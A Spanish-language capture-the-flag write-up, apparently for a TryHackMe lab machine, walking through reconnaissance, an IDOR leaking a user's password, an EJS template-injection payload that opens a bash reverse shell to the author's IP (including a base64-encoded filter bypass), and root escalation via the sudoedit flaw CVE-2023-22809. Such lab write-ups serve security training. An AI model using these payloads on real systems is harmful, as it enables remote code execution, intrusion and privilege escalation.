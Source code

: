 *****

![Imagen1](attachments/Pasted%20image%2020250203213856.png)

#easy

******

Al unirnos al room de THM nos dan un username y password que será importantes tenerlos en cuenta:

~~~bash
username: Olivia Cortez
password: olivi8
~~~


Realizamos un escaneo con **Nmap** para poder observar los servicios que usan:

~~~bash
sudo nmap -sS --min-rate 5000 --open -vv -p- -n -Pn whiterose.thm
~~~

![Imagen1](attachments/Pasted%20image%20250203214511.png)

Como podemos ver, tienen el `22` y `80` abiertos. Al ingresar a la pagina web esta nos redirige a otra:

`cyprusbank.thm`

![[Pasted image 20250203214630.png]]

Pasamos a realizar un fuzzing de directorios con gobuster, pero no nos muestra nada interesante.

~~~bash
gobuster dir -u 'http://cyprusbank.thm/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
~~~

Con ffuf realizamos fuzzing de subdominios y vemos que nos dan 2 subdominios:

`www.cyprusbank.thm` `admin.cyprusbank.thm`

~~~bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1
~~~

![[Pasted image 20250203215214.png]]

>[!note]
>`-fw` nos ayuda a descartar falsos positivos en el fuzzing


`www.cyprusbank.thm` no hay nada, sin embargo en `admin.cyprusbank.thm` nos muestra un login donde podemos intentar poner las credenciales del inicio.


![[Pasted image 20250203215438.png]]

Al ingresar con la cuenta de Olivia podemos ver varias cosas interesantes y donde podemos encontrar una de las primeras flag del room.

![[Pasted image 20250203220037.png]]

No podemos ingresar a settings, al parecer no tenemos privilegios.

![[Pasted image 20250203220137.png]]

Pero en mensajes podemos ver algo que me resulto interesante:

![[Pasted image 20250203220242.png]]

En la url podemos ver `c=5` y al cambiar los valores encontramos un IDOR que nos deja observar otros mensajes:

![[Pasted image 20250203220405.png]]

Al explorarlo mas al fondo, damos con una conversación donde el user `Gayle Bev` escribe su password `p~]P@5!6;rs558:q`, y al ingresar con su sesión podemos obtener la primera flag.

*****

Una vez iniciado la sesión de `Gayle Bev` podemos ingresar al apartado de de settings de la web page. En esta podemos actualizar passwords de usuarios:

![[Pasted image 20250203221334.png]]

Al revisar la solicitud con Burpsuite podemos modificar varios puntos para checar la posibilidad de XSS o SSTI. Interceptamos la request y omitimos el passwords y podemos ver que nos contesta con el siguiente error:

![[Pasted image 20250203221618.png]]

En este mensaje podemos observar que están usando `.ejs` (Embedded JavaScript templates), lo que indica que el servidor renderiza plantillas dinámicas. Dado que `.ejs` es vulnerable a **Server-Side Template Injection (SSTI)** si no se maneja correctamente la entrada del usuario, podemos buscar payloads específicos para explotar este tipo de vulnerabilidad en `ejs` y evaluar si es posible ejecutar código en el servidor.

~~~javascript
%%1");process.mainModule.require('child_process').execSync('calc');//
~~~

https://github.com/mde/ejs/issues/720

Modificamos el payload para realizar un curl a nuestro Python server.

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.8.27.189:6666');//
~~~

![[Pasted image 20250203222756.png]]

![[Pasted image 20250203222807.png]]

Con esto confirmamos que es un **SSTI**, ahora podemos intentar para explotar una RCE, para esto podemos crear un reverse Shell (https://www.revshells.com/):

![[Pasted image 20250203223016.png]]

Modificamos nuestro payload para que ejecute la reverse:

~~~js
name=a&password&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -i >& /dev/tcp/10.8.27.189/6666 0>&1');//
~~~

Pero al parecer nos esta filtrando la request, entonces aquí podemos encodearlo en base64 para intentar pasarlo.

~~~js
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMjcuMTg5LzY2NjYgMDA+JjE= | base64 -d | bash"');//  
~~~

![[Pasted image 20250203224626.png]]

Listo, tenemos acceso a la maquina donde podemos encontrar la siguiente flag, pero antes podemos mandar a llamar una Shell interactiva con python:

~~~python
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

![[Pasted image 20250203224739.png]]

******
Ahora para escalar privilegios podemos observar primero que podemos hacer con sudo:

~~~bash
sudo -l
~~~

Y aqui podemos ver algo que podemos explotar:

![[Pasted image 20250203224920.png]]

Podemos checar la versión que usa `sudoedit` con `sudoedit -V` y podemos ver que usa la versión `1.9.12p1`

![[Pasted image 20250203225015.png]]

Al investigar encontramos que existe un CVE para esta versión de `sudoedit`

~~~bash
CVE-2023-22809
~~~

Ahora con lo que encontramos acerca de esta CVE podemos cambiar la variable para que nos muestre la flag de root:

~~~bash
export EDITOR="vi -- /root/root.txt"
~~~

Ya solo queda ejecutar el comando que vimos al principio y aquí tendremos nuestra siguiente y ultima flag:

~~~bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
~~~

